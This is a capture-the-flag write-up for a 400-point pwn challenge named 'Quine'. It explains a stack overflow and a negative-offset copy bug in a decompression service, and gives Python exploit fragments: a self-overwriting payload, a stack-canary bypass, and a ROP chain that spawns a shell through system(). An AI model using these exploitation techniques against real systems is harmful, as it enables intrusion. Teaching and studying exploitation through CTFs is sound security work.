 # CONFidence CTF Teaser Quine

**Category:** Pwning
**Points:** 400
**Solves:** 19
**Description:**

> Yo Dawg! I herd you like compression!
>
> Files: [quine](quine) [libc.so.6](libc.so.6)
>
> Running at 95.138.166.12:31337


## Write-up

You are provided with a binary that implements decompression-as-a-service with a simple custom data format. The decompression appends data to the output buffer either by taking a literal byte from the input stream, or reusing a slice of the output buffer.

As far as protection goes, we have ASLR and NX, but no PIE. We also have `system()@plt` in the binary, which helps.

There are two vulnerabilities that lead to a working exploit, both of which are in the decoder:
* Output buffer size is never checked -- it's trivial to cause an overflow;
* Reusing the slice of output allows for negative offsets, copying data backwards into the array.

Decompiled function is as follows:
```C
size_t __cdecl decode_buf(char *res, int reslim /* BUG: never used */, char *inp, int inplim) {
  size_t i; // [sp+14h] [bp-24h]@1
  int back_idx; // [sp+1Ch] [bp-1Ch]@9
  int copy_len; // [sp+20h] [bp-18h]@9
  bitstream input; // [sp+24h] [bp-14h]@1

  bitstream_constructor(&input, inp, inplim);
  i = 0;
  while ( num_bits_left(&input) != 0 ) {
    if ( extract_bits(&input, 1u) )  {
      if ( num_bits_left(&input) <= 7 )
        die("Invalid input buffer");
      res[i++] = extract_bits(&input, 8u);
    } else {
      if ( num_bits_left(&input) == 0 )
        die("Invalid input buffer");
      if ( extract_bits(&input, 1u) == 0 )      // terminating cond
        return i;
      back_idx = extract_varint(&input);
      copy_len = extract_varint(&input);
      if ( &res[i - back_idx - 1] < res )
        die("Invalid input buffer");
      if ( copy_len > i )
        die("Invalid input buffer");
      memcpy(&res[i], &res[i - back_idx - 1], copy_len);  // BUG: back_idx can be negative
      i += copy_len;
    }
  }
  return i;
}
```

In the calling code, the stack frame looks like the following:
```C
  char output_smashable[2048]; // [sp+2Bh] [bp-2005h]@7
  char input_stream[1024]; // [sp+82Bh] [bp-1805h]@7
  char __unused__[2049]; // [sp+102Bh] [bp-1005h]@3
  int canary; // [sp+202Ch] [bp-4h]@1
```

The complication is that if we try to smash the output buffer, we will trash the input stream which will affect the decoding process. In effect, some data will be doubly decoded (almost like a quine).

So, the plan of attack was to send a message that decodes to ROP, then the quiny bit, then a sequence of copies that smashes the buffer, then a copy operation that overwrites the next few instructions with the quiny bit.

In turn, the quiny bit needs to do the prep work for getting past the canary and copying the ROP chain. Then it can return, triggering the ROP.

We've reserved 200 bytes for ROP, 200 bytes for the quiny bit, and tried to smash the stack leading to a close-enough alignment so that a copy of the quiny payload would overwrite the current instructions. With trial and error, we got a payload to write 2541 bytes before an overlap occurs:

```python
for c in ROP + CODE:                                                             
  literal(ord(c))                                                                
literal(0)                                                                       
for i in xrange(11):                                                             
  i = 2**i                                                                       
  copy(i-1, i)                                                                   
                                                                                 
for i in xrange(3):                                                              
  literal(0x41)                                                                  
copy(255, 80)                                                                    
```

Cool, so now we can copy the `CODE` (quiny) bytes forward.

```python
copy(2541-202, 100)
```

We have chosen our payload thus far to generate an even number of bytes (multiple-of-8 bits for the compressed sequence so far) so that the overwrite lines up nicely. It's 491 bytes, 0 bits long right after this poing. Execution will continue in the quiny `CODE` bit. This is why it had to be doubly-compressed as mentioned above.

Now, what should `CODE` do? Well, we're still unpacking from the inside of our input buffer, and we have a lot of bytes to smash. We had trouble aligning the first few instructions, but the following seemed to align the quine execution and smash the stack adequately:
```python
for i in xrange(4):
  literal(0xff)  # encodes to 28 x 1-bits
literal(0x41)                                                                    
literal(0x42)                                                                    
literal(0x43)                                                                    
literal(0x44)                                                                    
# n=2639 bytes overwritten from beginning of output buffer so far
copy(2000, 1024*3 - 2639)                                                        
# n=3072                                                                         
copy(2048, 2048)                                                                 
copy(4096, 3072)                                                                 
# n=8192                                                                         
literal(0x41)                                              

# We are now at the canary. One more literal(0x41) causes a stascksmash abort.
```

To bypass the canary, we use the second bug:
```python
copy(0xffffffff, 4)  # canary                                                    
skip = 12   # saved regs and 16-byte align, whatever
for i in xrange(skip):                                                           
  literal(0x43)                                                                  
copy(8192+4+skip, 200)  # rop
```

The offset for the last `copy()` is calculated by taking number of bytes copied so far, since ROP starts at offset 0. We can now ROP freely.

The ropchain isn't pretty, and it has a lot of shamanism. `fgets()` crashed reliably, don't know why, so we copied in a `"sh\0\0"` with `scanf("%u")`. Also, the chain had to be padded with a bunch of `A`s, otherwise the decoder shits itself. If anyone can explain why, please edit this writeup adding a note below.

```python
FGETS = 0x080486c0  # unused                                                     
STDIN = 0x0804b060  # unused                                                     
SCANF = 0x08048700                                                               
SYSTEM = 0x080486a0                                                              
EXIT = 0x08048790                                                                
FMT = 0x0804901b  # "%u"                                                         
BUF = 0x0804b100  # something writeable                                          
BUMP_ESP = 0x0804864e  # add esp, 0x08 ; pop ebx ; ret  ;                        

ROP = ''                                                                         
ROP += pack('IIII', SCANF, BUMP_ESP, FMT, BUF) + "ABCD"                          
ROP += pack('III', SYSTEM, EXIT, BUF)                                            
ROP += pack('II', 0, 0)                                                          
ROP = ROP.ljust(170, '\0')                                                       
ROP = ROP.ljust(200, 'A')                                                        
```

Running this, we get a shell and after a `cat /*/*/*flag*`, we get `DrgnS{n0w_y0u_c4n_d3compr3ss_wh1Ie_u_dec0mpreSS}`. Cute.

The full exploit is also in the repo with a traffic log. Enjoy.

## Other write-ups and resources

* none yet
